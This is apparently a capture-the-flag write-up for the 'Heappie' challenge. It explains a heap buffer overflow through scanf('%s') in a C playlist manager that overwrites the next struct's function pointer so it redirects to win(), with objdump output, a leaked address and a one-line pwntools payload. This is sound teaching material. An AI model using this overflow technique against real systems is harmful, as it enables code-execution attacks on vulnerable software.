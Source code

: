 ```yaml
---
layout: Post
type: chall
---
```

# Heappie ⚪

<a class="back-link" href="../../">< Go back</a>

## Description

Heappie is a simple application that allows you to save and play your favorite songs. Find a way to exploit it and read the flag.

nc pwn.heroctf.fr 6000

Author : xanhacks

all files in [resources/](./resources) were provided.

## Challenge

We have access to the source code of a playlist manager written in C. There are obvious buffer overflow vulnerabilities in the code especially since most interactions with the user are done via `scanf("%s")`, here we will be exploiting this one:

```c
printf("Enter music description: ");
scanf("%s", music->description); // Overflow
```

Music is a struct, the playlist is a linked list of Music's:

```c
typedef struct Music {
    void (*play)(struct Music*);

    char title[32];
    char artist[32];
    char description[128];
} Music;

Music* playlist = NULL;
```

The fact that the last element in the struct is the one we can exploit via the vulnerable `scanf()` is great. Because the first value is a function pointer, the playlist is a linked list and there is not much going on in memory we can guess that blocks will be created in succession if done correctly, This means that overflowing the description field will write in the non existant next Music in the linked list.

Let's make an exploit that will pre-fill the `void (*play)(struct Music*);` for the next playlist element with the address of the `win()` function and then call the `play()` function.

Now that our theory is clear, let's go for dynamic analysis and actually creating the payload and exploit.

```bash
objdump -S heappie
#    00000000000011f9 <win>
#    000000000000127d <play_1>
#    00000000000012b3 <play_2>
#    00000000000012e9 <play_3>

nc pwn.heroctf.fr 6000
#    4. Show playlist
#    >> 4
#    Your playlist:
#     1. AAAA by BBBB (song: 0x55e44d0a32e9)
#     2. psum by dolor (song: (nil))
#     3. 1 by 2 (song: 0x55e44d0a32e9)
#     4. 3 by 2 (song: 0x55e44d0a327d)
```

Great so when we look at the playlist we can see the address that was randomly choosen for the `play()` function pointer.

From the ending values of those addresses we can see they align with what we see in the objdump, we can now calcualte the offset to point to the `win()` function.

In terms of pwntools here is what the generated payload will look like:

```python
b'A' * 128 + p64(int(memory_address[:-3] + "1f9", 16))
```

Let's go for the exploit, take a look at [exploit.py](./exploit.py).
